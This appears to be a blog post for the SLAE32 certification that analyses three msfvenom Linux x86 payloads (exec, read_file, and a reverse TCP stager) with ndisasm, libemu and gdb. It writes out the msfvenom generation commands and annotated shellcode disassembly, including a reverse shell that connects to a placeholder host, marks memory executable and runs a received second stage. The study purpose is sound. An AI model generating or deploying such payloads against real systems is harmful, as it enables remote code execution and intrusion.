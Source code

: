 ```yaml
---
layout: post
title:  SLAE32 Assignment 5 - msfvenom shellcode analysis
excerpt: analysis of code generated by msfvenom for payloads linux/x86/exec linux/x86/read_file linux/x86/shell/reverse_tcp_uuid
---
```


# author     : Sandro "guly" Zaccarini SLAE-1037
# purpose    : this program has been written for SLAE32 assignment 5
# license    : CC-BY-NC-SA

shellcode will be analyzed with ndisasm and libemu if possible, then with gdb to someway follow the flow.
i choose to analyze both basic commands and one reverse shell, the command i used to create payloads are:

>msfvenom -p linux/x86/exec CMD=/usr/bin/id -f raw > exec.raw
>msfvenom -p linux/x86/exec CMD=/usr/bin/id -f c > exec.c
>msfvenom -p linux/x86/exec CMD=/usr/bin/id > exec
>chmod + exec
>sctest -vvv -S -s 99999 -G exec.dot < exec
>dot -Tjpg exec.dot > exec.jpg

>msfvenom -p linux/x86/read_file PATH=/etc/hosts -f c > readfile.c
>msfvenom -p linux/x86/read_file PATH=/etc/hosts -f raw > readfile.raw
>msfvenom -p linux/x86/read_file PATH=/etc/hosts > readfile
>chmod +x readfile
>sctest -vvv -S -s 99999 -G readfile.dot < readfile
>dot -Tjpg readfile.dot > readfile.jpg

>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 -f c > reverse.c
>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 -f raw > reverse.raw
>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 > reverse
>chmod +x reverse
>sctest -vvv -S -s 99999 -G reverse.dot < reverse
>dot -Tjpg reverse.dot > reverse.jpg

because all the code is 32bit, i will use ndisasm -u to disasm.
about gdb, i choose to include a C file with msfvenom buf[] and recompile every time.
to break when shellcode is runt, you can b *&buf


## exec
ndisasm -u exec output and comments:

00000000  6A0B              push byte +0xb                             ;
00000002  58                pop eax                                    ; just place 0xb in eax
00000003  99                cdq                                        ; because eax is not negative, fills edx with 0
00000004  52                push edx                                   ; push 0x0 to esp (string terminator maybe?)
00000005  66682D63          push word 0x632d                           ; push -c to the stack
00000009  89E7              mov edi,esp                                ; move esp pointer to edi, i guess this will be an execve argument
0000000B  682F736800        push dword 0x68732f                        ; push hs/ (/sh)
00000010  682F62696E        push dword 0x6e69622f                      ; push nib/ (/bin/)
00000015  89E3              mov ebx,esp                                ; move esp pointer to ebx, esp holds: /bin/sh
00000017  52                push edx                                   ; push 0x0 because edx was nulled at 0x3
00000018  E80C000000        call 0x29                                  ; i liked a lot this call because it jumps to a non aligned code, fooling ndisasm and gdb
0000001D  2F                das                                        ; from here, useless junk until 0x29
0000001E  7573              jnz 0x93
00000020  722F              jc 0x51
00000022  62696E            bound ebp,[ecx+0x6e]
00000025  2F                das
00000026  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
0000002E  80                db 0x80

moving to gdb, i set 05_shellcode.c to include exec.c, compiled and runt
with b *&buf
i know that the call is at 0x29 from buf, so i take buf starting address
in gdb and add 0x29: "offending" code is at 0x56559069
because gdb/GEF can also print instruction, i just use x/i to see the
code:
gef➤  x/4i 0x56559069
   0x56559069 <buf+41>: push   edi
   0x5655906a <buf+42>: push   ebx
   0x5655906b <buf+43>: mov    ecx,esp
   0x5655906d <buf+45>: int    0x80
gef➤

i already know something about my registers:
eax => 0xb (execve syscall id)
ebx => pointer to /bin/sh
edi => pointer to -c, which is the arg
esp => has on top /usr/bin/id

i see that edi is pushed, so esp will be: -c /usr/bin/id
ebx is pushed again, to have actually /bin/sh -c /usr/bin/id
pointer to shell is moved to ecx, and syscall is executed

at first you could think libemu is useless to analyze this simple code
because there is just one execve and some basic reg manipulation, but
because
she *emulates* the code, she's not fooled with that call 0x29 and i've
could seen the right flow from call to push/push/mov/execve

both reading exec.c and disassembled code, we can see that there are a
lot of null bytes. this code will surely need optimization if used
during an active exploitation.

## readfile

libemu wasn't able to emulate anything here, i'll dig as extra mile in
the near future.
back to gdb/ndisasm, this is ndisasm -u readfile output with some
comment ordered to follow the flow easily:
00000000  EB36              jmp short 0x38          ; 1) cool, starting with a jump will surely simplify analysis...
00000002  B805000000        mov eax,0x5             ; 3) eax => 0x5 , syscall open call
00000007  5B                pop ebx                 ; 4) using gdb i'll confirm this, i guess ebx will hold a filename
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80                ; 5) do the actual call
0000000C  89C3              mov ebx,eax             ; 6) because syscall place retcode in eax, and for open it's the fd, he saves it to ebx
0000000E  B803000000        mov eax,0x3             ; 7) eax => 0x3 , if it will be used as a syscall would be read
00000013  89E7              mov edi,esp             ;
00000015  89F9              mov ecx,edi             ; 9) read wants a fd as input and a place to store read data
00000017  BA00100000        mov edx,0x1000          ;10) how much data to read
0000001C  CD80              int 0x80                ; 8) ok it's the syscall read
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80                ;11) fast forward, do a syscall write to STDOUT
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80                ;12) clean exit
00000038  E8C5FFFFFF        call 0x2                ; 2) ok, this time the code is aligned and i see what's going on. looks like jmp-call-pop technique
0000003D  2F                das                     ;13) from here we could see read filename => 2F6574632F686F737473 => /etc/hosts
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  686F737473        push dword 0x7374736f
00000047  00                db 0x00

on gdb, i want to confirm that the jmp-call-pop will return actually
/etc/hosts:
gdb ./readfile
b *&buf
r
c
n
si
and after → 0x56559047 <buf+7>          pop    ebx
we can see that now
$ebx   : 0x5655907d  →  "/etc/hosts"

both reading readfile.c and disassembled code, we can see that there are
a lot of null bytes. even if it's uncommon to read a file after an
active exploitation, this code would need optimization to remove null
bytes.

## reverse
as you can see in reverse.jpg , the flow is quite basic: create a socket, connect, do something. i already developed my own revshell and i think i'm familiar with the flow, so fastly to ndisasm:

00000000  6A0A              push byte +0xa
00000002  5E                pop esi                  ; put 0xa in esi, will use it to loop for reconnection in circa 0x2F
00000003  31DB              xor ebx,ebx
00000005  F7E3              mul ebx                  ; multiply ebx and eax, and put result in eax+edx. result in zeroing both eax and edx, because ebx has been zeroed in 0x3
00000007  53                push ebx
00000008  43                inc ebx
00000009  53                push ebx
0000000A  6A02              push byte +0x2           ; i remember doing almost the same 4 instruction to have 0,1,2  on the stack, which is common arg for a tcp reverse shell
0000000C  B066              mov al,0x66              ; and here we have socketcall socket
0000000E  89E1              mov ecx,esp              ; pointer to socket arg in ecx
00000010  CD80              int 0x80                 ; create the socket

00000012  97                xchg eax,edi             ; save socket fd in edi
00000013  5B                pop ebx                  ; top of stack is 0x2, put in ebx
00000014  6801020304        push dword 0x4030201     ; for connect, we need an ip address, translated it's 1.2.3.4
00000019  680200115C        push dword 0x5c110002    ; and a port, which is 0x5c11 => 0x115c => 4444
                                                     ; this push breaks the nullbyte requirement but it's cute because puts both port and 0x2 to have the struct full
0000001E  89E1              mov ecx,esp              ; put the pointer in ecx
00000020  6A66              push byte +0x66
00000022  58                pop eax                  ; in eax syscall for socketcall 0x66
00000023  50                push eax                 ; start preparing next syscall arg with address len
00000024  51                push ecx                 ; pointer to address struct 
00000025  57                push edi                 ; saved socket fd
00000026  89E1              mov ecx,esp              ; have pointer for
the whole struct in ecx
00000028  43                inc ebx                  ; ebx was 2, we
need 3 for the connect call
00000029  CD80              int 0x80                 ; do the connect

0000002B  85C0              test eax,eax             ; 0x29 return will be in eax, if 0 connection has been completed. test eax,eax sets SIGN flag if eax is negative
                                                     ; (most significant bit is >7f). will set SIGN to true if connect fails
0000002D  7944              jns 0x73                 ; if SIGN flag is not set, jumps to 0x73 which next "logic" step

0000002F  4E                dec esi                  ; if connection fails, try "esi times", when esi is 0xa (10)
00000030  7468              jz 0x9a                  ; as soon as esi is 0, jump to neat exit

00000032  68A2000000        push dword 0xa2          ; this will sleep 5 secs before to try again
00000037  58                pop eax
00000038  6A00              push byte +0x0
0000003A  6A05              push byte +0x5
0000003C  89E3              mov ebx,esp
0000003E  31C9              xor ecx,ecx
00000040  CD80              int 0x80

00000042  85C0              test eax,eax             ; eax is 0 because of nanosleep, so next jmp should always occur - or not just if nanosleep fails someway
00000044  79BD              jns 0x3                  ; jmp to buf+3, which is almost the start of the program
00000046  EB52              jmp short 0x9a           ; jmp to neat exit again

00000048  53                push ebx                 ; i bet this code won't be never reached
00000049  51                push ecx
0000004A  6A00              push byte +0x0
0000004C  6A10              push byte +0x10
0000004E  E810000000        call 0x63
00000053  91                xchg eax,ecx
00000054  21BDE454BC04      and [ebp+0x4bc54e4],edi
0000005A  6BA3C7A5C6FEA9    imul esp,[ebx-0x1395a39],byte -0x57
00000061  96                xchg eax,esi
00000062  2457              and al,0x57
00000064  89E1              mov ecx,esp
00000066  6A09              push byte +0x9
00000068  5B                pop ebx
00000069  6A66              push byte +0x66
0000006B  58                pop eax
0000006C  CD80              int 0x80
0000006E  83C410            add esp,byte +0x10
00000071  59                pop ecx
00000072  5B                pop ebx                  ; end of never-reached code?

00000073  B207              mov dl,0x7               ; 0x7 to dl doesn't say anything itself, seeing next syscall (0x7d at line 0x82) which is mprotect, we see that 0x7 will be "prot"
                                                     ; reading man mprotect we see that 0x7 means rwx
00000075  B900100000        mov ecx,0x1000           ; and ecx will hold size len, so make a full page rwx
0000007A  89E3              mov ebx,esp              ; move esp pointer to ebx, so mprotect knowns where to operate
0000007C  C1EB0C            shr ebx,byte 0xc         ; made useless by next one
0000007F  C1E30C            shl ebx,byte 0xc         ; makes useless prev one
00000082  B07D              mov al,0x7d              ; as said, mprotect syscall id
00000084  CD80              int 0x80

00000086  85C0              test eax,eax             ; like at 0x2B
00000088  7810              js 0x9a                  ; but jumps to 0x9a (exit) if mprotect returns a negative number therefore an error
0000008A  5B                pop ebx                  ; reading backward, se see that esp has on top socketfd: put in ebx. we can see it's a read syscall so we expect it will read from the socket itself
0000008B  89E1              mov ecx,esp              ; put esp to ecx.  read needs a pointer to a writable location, this means it will write to esp what she reads from the socket
0000008D  99                cdq                      ; eax is zero, so zero also edx to read unlimited bytes
0000008E  B60C              mov dh,0xc               ; edx will be 0xc
00000090  B003              mov al,0x3               ; read syscall
00000092  CD80              int 0x80

00000094  85C0              test eax,eax             ; because eax holds retcode, if zero sign flag will be unset if read doesn't return any error
00000096  7802              js 0x9a                  ; exit if any error
00000098  FFE1              jmp ecx                  ; jmp to received shellcode, executable because of mprotect

0000009A  B801000000        mov eax,0x1              ; neat exit
0000009F  BB01000000        mov ebx,0x1
000000A4  CD80              int 0x80


we see that libemu missed from the mprotect call afterwards, i bet it's
because of self protection.




*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

